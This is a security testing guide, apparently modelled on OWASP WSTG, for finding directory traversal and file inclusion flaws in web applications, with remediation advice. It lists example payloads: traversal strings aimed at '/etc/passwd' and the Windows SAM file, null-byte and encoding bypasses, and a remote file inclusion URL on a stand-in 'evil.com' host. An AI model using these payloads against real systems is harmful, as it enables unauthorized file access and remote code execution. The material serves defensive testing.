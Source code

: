 # OWASP WSTG v4.0 - WSTG-ATHZ-01

## Test Name: Testing Directory Traversal File Include

### Overview
This test identifies vulnerabilities in directory traversal or file inclusion mechanisms that allow attackers to access unauthorized directories, files, or code.

---

### Objectives
- Identify vulnerabilities that allow unauthorized access to files on the server.
- Detect insecure implementations of file handling and path resolution.
- Ensure input validation and sanitization for file paths and includes.

---

### Test Steps

#### 1. **Test for Directory Traversal**
   - **Scenario**: Attempt to access restricted files by exploiting directory traversal.
   - **Steps**:
     1. Identify input fields, parameters, or endpoints that handle file paths.
     2. Attempt to include directory traversal patterns such as `../` or `..\` in inputs.
     3. Test for access to sensitive files like `/etc/passwd` or `C:\Windows\System32\config\sam`.
   - **Indicators**:
     - Successful access to restricted directories or files.
     - Error messages exposing server paths or details.

#### 2. **Inspect File Inclusion Mechanisms**
   - **Scenario**: Verify if file inclusion is vulnerable to attacks.
   - **Steps**:
     1. Identify functionality that dynamically includes files (e.g., templates).
     2. Test with local file inclusion (LFI) payloads (e.g., `../../file.php`).
     3. Test with remote file inclusion (RFI) payloads (e.g., `http://evil.com/malicious.php`).
   - **Indicators**:
     - Successful inclusion of unintended files.
     - Execution of remote code from external URLs.

#### 3. **Test Null Byte Injection**
   - **Scenario**: Check if null byte injection bypasses file extension restrictions.
   - **Steps**:
     1. Use null byte characters (`%00`) in file path inputs.
     2. Append additional file extensions to test inclusion (e.g., `/etc/passwd%00.jpg`).
   - **Indicators**:
     - Files are incorrectly included despite extension restrictions.
     - Null byte injections bypass security checks.

#### 4. **Analyze Error Handling**
   - **Scenario**: Review how the application handles invalid file path requests.
   - **Steps**:
     1. Enter invalid or malformed file paths.
     2. Observe error messages and responses.
   - **Indicators**:
     - Detailed error messages disclose server-side file structures or configurations.

#### 5. **Check for Encoding Bypass Techniques**
   - **Scenario**: Test for encoding or obfuscation techniques that bypass filters.
   - **Steps**:
     1. Use URL encoding (e.g., `%2E%2E%2F` for `../`) in file path inputs.
     2. Test double encoding or alternate encodings.
   - **Indicators**:
     - Filters fail to detect traversal patterns when encoded.

---

### Tools
- **Burp Suite**: Intercept and modify requests.
- **OWASP ZAP**: Automated scans for directory traversal.
- **Fiddler**: Debug and inspect HTTP requests.
- **Nikto**: Scan for known vulnerabilities including file inclusion.
- **Metasploit**: Test advanced exploitation scenarios.

---

### Remediation
- Validate and sanitize all user inputs for file paths.
- Use server-side mechanisms to enforce allowed file paths.
- Disable dynamic file includes if not necessary.
- Implement proper error handling that avoids exposing server information.
- Restrict file access to necessary directories only using `chroot` or equivalent.
- Regularly test and audit file inclusion and directory traversal mechanisms.

---

### References
- [OWASP Testing Guide v4.0: Directory Traversal File Include](https://owasp.org/www-project-web-security-testing-guide/)
- [OWASP Path Traversal Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Path_Traversal_Cheat_Sheet.html)
- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

---

### Checklist
- [ ] Input validation and sanitization are implemented for file paths.
- [ ] Dynamic file inclusion mechanisms are secured or disabled.
- [ ] Proper error handling avoids exposing server information.
- [ ] Restricted directories and files are inaccessible.
- [ ] Encoding bypass techniques are mitigated.
